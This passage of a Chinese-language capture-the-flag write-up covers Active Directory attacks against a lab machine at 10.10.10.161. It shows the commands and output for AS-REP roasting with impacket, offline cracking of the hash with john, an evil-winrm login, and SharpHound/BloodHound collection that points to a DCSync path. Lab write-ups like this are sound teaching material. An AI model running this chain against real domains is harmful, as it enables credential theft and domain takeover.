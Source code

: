 ```shell
> for user in $(cat users.txt); do python3 /tools/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}; done

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:c0a33cbe946dc9150025ee60c9e72029$142fd02f6bf91c62f6ebc21b359b1c888466a2dd1d5301638d88dd6925ed835ccd9786bf8aa884f2d95326d70c25e6a1bce72155f05e83b32cee0f30602063d628d21c0a51aca73928749ae3adb70523fd4aa843329cff4f7699ca701e5ae64a6bcec0dec5e6b5180e26e7c3eb58342002497cb2a2dd5348a4646f3d041d3db7d43d050793158cbf9a4b0e652deca1b72757a96ab8d322221c7baa20ac02c6112958658da0cd8d98f758145c1073e910cde77665579fb48bac2ad77b37b9e00b1712c58f1d8ac644cf29efd45a5a9211a708deab0553b0b2a289f9ccee25976d
Impacket v0.10.1.dev1+20230728.114623.fb147c3f - Copyright 2022 Fortra
```

离线哈希爆破

```shell
> john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB)
1g 0:00:00:02 DONE (2023-07-31 17:58) 0.3649g/s 1491Kp/s 1491Kc/s 1491KC/s s521379846..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

`sudo evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice` 连接获取 user.txt

# BloodHound

```shell
upload SharpHound.exe
./SharpHound.exe
download 20230731031327_BloodHound.zip
download MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin

sudo neo4j console
bloodhound
```

导入 zip 数据库文件即可

![](https://pic.l1nyz-tel.cc/202307312229710.png)

找到到达 Domain Admins 最短路径，看到可以 `DCSync`

![](https://pic.l1nyz-tel.cc/202307312227002.png)

![](https://pic.l1nyz-tel.cc/202307312233245.png)

![](https://pic.l1nyz-tel.cc/202307312235947.png)
